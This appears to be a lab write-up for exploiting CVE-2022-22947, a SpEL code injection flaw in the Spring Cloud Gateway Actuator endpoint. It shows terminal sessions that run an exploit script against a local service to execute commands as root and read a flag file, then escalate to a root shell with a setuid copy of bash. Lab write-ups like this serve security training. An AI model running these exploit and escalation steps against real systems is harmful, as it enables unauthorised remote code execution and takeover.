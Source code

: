 # Introduction

In the first quarter of 2022, an interesting and critical (base score of 10.0) Spring Cloud Gateway Code Injection vulnerability was discovered leveraging the Actuator API to perform SpEL Injection, potentially leading to system compromise.

In spring cloud gateway versions prior to 3.1.1+ and 3.0.7+ , applications are vulnerable to a code injection attack when the Gateway Actuator endpoint is enabled, exposed and unsecured. A remote attacker could make a maliciously crafted request that could allow arbitrary remote execution on the remote host.

Reference: https://nvd.nist.gov/vuln/detail/CVE-2022-22947

# The Vulnerability

A route after being added to the /actuator endpoint will be pushed to the routing cache. To publish the route, a refresh request must be made and all the routes in the cache would be converted one by one to a Route. If the passed arguments' value starts with #{ and ends with } it would be considered as a SpEL expression and evaluated.Reference: https://blog.viettelcybersecurity.com/cve-2022-22947-spring-cloud-gateway-code-injection-vulnerability/
The setup code is based on the following Github repository: https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947

# Commands

```
emily@attackdefense:/etc$ nmap 127.0.0.1
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-27 20:51 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000076s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds
emily@attackdefense:/etc$ 
```

```
emily@attackdefense:/etc$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0  27280 21172 ?        Ss   19:49   0:00 /usr/bin/python2 /usr/bin/supervisord -n
emily          9  0.0  0.0  17740 17184 ?        R    19:49   0:00 /usr/local/bin/ttyd -p 45654 bash
root          10  0.2  0.1 2457484 137672 ?      Sl   19:49   0:11 java -Djava.security.egd=file:/dev/./urandom -jar /spring-cloud-gateway-0.0.1-SNAPSHOT.jar
emily         28  0.0  0.0   5744  3608 pts/0    Ss   20:10   0:00 bash
emily         41  0.0  0.0   9384  2988 pts/0    R+   20:51   0:00 ps aux
emily@attackdefense:/etc$ 
```

```
emily@attackdefense:~$ python3 exploit.py http://localhost:8080 'ls -al /root'
    
DEBUG:root:Exploiting URL: http://localhost:8080 with command: ls -al /root
DEBUG:urllib3.connectionpool:Starting new HTTP connection (1): localhost:8080
DEBUG:urllib3.connectionpool:http://localhost:8080 "POST /actuator/gateway/routes/nxjuwuvi HTTP/1.1" 201 0
DEBUG:root:Response status code: 201
[+] Stage deployed to /actuator/gateway/routes/nxjuwuvi
[+] Executing command...
DEBUG:urllib3.connectionpool:Starting new HTTP connection (1): localhost:8080
DEBUG:urllib3.connectionpool:http://localhost:8080 "POST /actuator/gateway/refresh HTTP/1.1" 200 0
DEBUG:root:Response status code: 200
[+] getting result...
DEBUG:urllib3.connectionpool:Starting new HTTP connection (1): localhost:8080
DEBUG:urllib3.connectionpool:http://localhost:8080 "GET /actuator/gateway/routes/nxjuwuvi HTTP/1.1" 200 535
DEBUG:root:Response status code: 200
DEBUG:urllib3.connectionpool:Starting new HTTP connection (1): localhost:8080
DEBUG:urllib3.connectionpool:http://localhost:8080 "DELETE /actuator/gateway/routes/nxjuwuvi HTTP/1.1" 200 0
DEBUG:root:Response status code: 200
[+] Stage removed!
total 28
drwx------ 1 root root 4096 Aug 10  2022 .
drwxr-xr-x 1 root root 4096 Dec 27 19:49 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwx------ 3 root root 4096 Aug  2  2022 .cache
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root  227 May 12  2021 .wget-hsts
-rw-r--r-- 1 root root   39 Aug 10  2022 FLAG



######
emily@attackdefense:~$ python3 exploit.py http://localhost:8080 'cat /root/FLAG'
...
FLAG: 4f8ac3289690d7b88ef57a05b0747823
```


# Escalate to root
```
python3 exploit.py http://localhost:8080 'cp /bin/bash /tmp'
ls -al /tmp/
python3 exploit.py http://localhost:8080 'chmod +s /tmp/bash'
id; /tmp/bash -p ; id; 
history
bash-5.0# whoami
root
bash-5.0# date
Wed Dec 27 21:54:50 UTC 2023
```